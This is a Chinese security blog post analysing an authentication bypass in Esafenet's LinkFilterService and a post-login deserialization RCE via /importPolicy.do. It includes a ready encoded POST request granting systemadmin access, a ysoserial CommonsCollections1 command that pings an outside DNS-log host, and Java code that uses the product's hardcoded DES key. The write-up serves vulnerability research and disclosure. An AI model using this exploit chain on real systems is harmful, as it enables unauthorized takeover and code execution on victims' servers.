# 亿赛通 LinkFilterService 权限绕过到后台 rce 漏洞分析 - 先知社区

亿赛通 LinkFilterService 权限绕过到后台 rce 漏洞分析

- - -

# LinkFilterService 权限绕过

## 漏洞描述

2023 年 12 月，互联网上披露亿赛通电子文档安全管理系统旧版本相关接口存在权限绕过与代码执行漏洞。攻击者可构造恶意请求绕过身份认证，结合相关功能造成远程代码执行。

## 漏洞分析

查看 web.xml，定位到接口如下  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219144013-bc580a12-cef1-1.png)  
步入对应的 servlet-class：com.esafenet.filter.LinkFilter  
跟入代码，代码逻辑比较清晰，基本代码逻辑都在这几个方法中  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219144146-f3ec6392-cef1-1.png)  
service 函数中，会对前端传入的参数 path、userId、cur 分别进行判断处理。此处先对 path 中是否携带有`/client/AppExamList.jsp?username=`进行判断，如果不存在则会获取到 username 的 value 值，并进行`CDGUtil.encode`函数的加密（至于这个加密函数，我们之后还会碰到），从而获取 sId，并调用`buildLinkURL`函数，根据函数名及上下文推测是用来构造 302 跳转地址的 url。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219144225-0b02f92e-cef2-1.png)  
假设符合上述判断，步入`buildLinkURL`，此时传入的 path 为`/client/AppExamList.jsp?username=xxx`，对应的我们会得到 95 行构造的 url，即：`http://host:port/CDGServer3/client/AppExamList.jsp;jsessionid=sid?username=xxx`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219144255-1c8583ba-cef2-1.png)  
但这里获取到的 url 并没有涉及任何关于用户判断认证并且会触发 return 提前结束 service 函数，因此要保障函数不步入 if 语句。  
继续审计 service 中对其他参数的判断处理：传入的 cur 参数在被解密封装为 time 后，步入`isOverTime`函数，假如函数返回 true 那么 service 函数将提前结束  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219144430-5536a680-cef2-1.png)  
`isOverTime`函数将当前时间和传入时间进行相减并除以 1000L 将单位转换为秒，若超过`exam.timeout`设定的 600s，则为超时，返回 true。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219144448-5ff53f50-cef2-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219144500-674ae5a2-cef2-1.png)  
如果未超时，函数将继续执行至`buildSessionId`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219144521-73884a30-cef2-1.png)  
传入的 userId 为可控的前端参数，`userDao.findUserById`会根据传入的 userId，返回 user 对象。接着 if 语句会判断 session 中是否携带有 loginMng 的值，若为空则会调用`LoginMng.login`函数  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219144547-83847fe4-cef2-1.png)  
此时步入 LoginMng 类中，该类保存的是用户的登录相关字段，而上文中调用的是 loginMng 类中 login 的重载方法

```plain
public class LoginMng implements Serializable {
        ...
    private User user;
    private boolean isLogin;
    private boolean isAdmin = false;

    public LoginMng() {
    }
    public boolean login(String loginName, String password) throws Exception {
        if (loginName != null && !loginName.equals("")) {
          ...
            return this.isLogin;
        } else {
            this.isLogin = false;
            return this.isLogin;
        }
    }
  public void login(User u) {
        ...
        if (u.getUserName().equals("admin") && u.getUserId().equals("100400000001")) {
            this.setAdmin();
        } else {
            this.isAdmin = false;
        }
        this.user = u;
        this.isLogin = true;
    }
```

当传入的 userid 存在时，则会获取到 LoginMng 用户凭证，赋值到 session 中，并返回 session 会话的唯一标识符。步入`userDao.findUserById`可发现执行 sql 语句为`select * from WF_USER where USER_NAME = ?`，userid 作为传入的参数，即通过用户名查询并返回用户。

```plain
public User findUserById(String userId) throws Exception {
    User user2 = null;
        ...
    new User();
    String sql = "select * from WF_USER where USER_NAME = ? ";
    Object[] params = new Object[]{new String(userId)};
    HashMap[] maps = this.getCommonResults(sql, params);
    if (maps != null && maps.length > 0) {
        ...
        return user;
    } else {
        return null;
    }
}
```

返回的 session id 作为 sid 传入`buildLinkURL`，构造跳转地址  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219144727-beede7c8-cef2-1.png)  
总结一下：前端可传入 cur、path、userId 三个值，path 明文为 uri 路径，用作跳转，此处可输入后台地址路径：/frame.jsp；cur 明文为时间戳，尽量往大了取，原则上是大于 600s；userId 明文为存在的用户名，亿赛通管理员用户名为 systemadmin。  
CDGUtil 加解密可以直接导入亿赛通原有的 jar 包来调用函数，能省去不少麻烦。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219144753-ce8c1344-cef2-1.png)

## 漏洞复现

明文 userid=systemadmin，cur=2099-11-11 12:12:12，path=/frame.jsp

```plain
System.out.println("userid: " + encode("systemadmin"));
System.out.println("cur: " + encode("2099-11-11 12:12:12"));
System.out.println("path: " + encode("/frame.jsp"));
```

加密处理得到密文  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219144807-d6e2ab2a-cef2-1.png)  
数据包如下：

```plain
POST /CDGServer3/LinkFilterService HTTP/1.1
Host: 

path=BOFGGPFBFIFPBHFMGKGi&userId=GCGHGAGGFAFHFGFCFEFPFD&cur=KKPCJHNBBFBFFHOFBKENGDGFNGIBLBLBCJCPCP
```

成功进入后台  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219144846-ee2f8b2c-cef2-1.png)

# 后利用

前段时间狂爆的反序列化漏洞就不再提了，基本都是前台 xstream 反序列化牵扯出的一系列接口。这里提一个后台 rce 接口：`/importPolicy.do`  
文件上传接口获取到 file 文件，获取到文件流后，对数据进行`CDGUtil.encode`加密，密文将传入`byteToObject`函数  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219144933-09c2c444-cef3-1.png)  
`byteToObject`中是标准的反序列化代码，此时 bs 可控，rce 近在咫尺。需要解决的就是`CDGUtil.encode`的加密  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219144951-14f9463a-cef3-1.png)  
步入`CDGUtil.encode`，加密方式是一段 DES/CBC/PKCS5Padding 模式的加密，key 与 iv 均为 esafenet。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219145009-1f5f2dba-cef3-1.png)  
后端处理文件的过程：文件传入->DES 加密->反序列化，因此 rce 的思路就很明确了：生成序列化文件->使用 DES 解密->上传文件，亿赛通还有 commons-collections3.1 依赖，此处使用 cc1 来进行 rce。

## 漏洞复现

使用 yso 生成 cc1

```plain
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections1 'ping zkilvkinpf.dgrh3.cn' >cc1.ser
```

使用如下代码对 cc1.ser 进行 des 解密，并输出至 1.txt

```plain
import com.esafenet.ta.policy.utils.EncryptUtil;
import com.esafenet.util.CodeDecoder;
import java.io.ByteArrayInputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.lang.reflect.Array;
import java.util.Base64;

import static com.esafenet.util.CDGUtil.decode;
import static com.esafenet.util.CDGUtil.encode;
import org.apache.commons.io.FileUtils;
import org.apache.commons.logging.Log;
import org.apache.commons.logging.LogFactory;
import org.w3c.dom.Document;
import sun.misc.BASE64Decoder;

import javax.crypto.Cipher;
import javax.crypto.SecretKey;
import javax.crypto.SecretKeyFactory;
import javax.crypto.spec.DESKeySpec;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;

public class CDGdecode {
    public static void main(String[] args) throws Exception {
        byte[] bytes = desEncrypt("/Users/cc1.ser");
        File file = new File("1.txt");
        FileOutputStream fileOutputStream = new FileOutputStream(file);
        fileOutputStream.write(bytes);
        System.out.println(new String(bytes));
    }
    public static byte[] desEncrypt(String filepath) throws Exception{
        File file = new File(filepath);
        byte[] filebyte = new byte[(int) file.length()];
        FileInputStream fileInputStream = new FileInputStream(file);
        fileInputStream.read(filebyte);
        Cipher cipher = Cipher.getInstance("DES/CBC/PKCS5Padding");
        DESKeySpec dks = new DESKeySpec("esafenet".getBytes());
        SecretKeyFactory keyFactory = SecretKeyFactory.getInstance("DES");
        SecretKey securekey = keyFactory.generateSecret(dks);
        IvParameterSpec iv = new IvParameterSpec("esafenet".getBytes());
        cipher.init(Cipher.ENCRYPT_MODE,securekey,iv);
        byte[] bytes = cipher.doFinal(filebyte);
        String s = new String(bytes);
        System.out.println(s);
        return bytes;
    }
}
```

使用 yakit 将解密后输出的文件传入接口中  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219145206-6576cbe6-cef3-1.png)  
此时服务器成功执行命令，实现 rce  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240219145220-6d474bac-cef3-1.png)
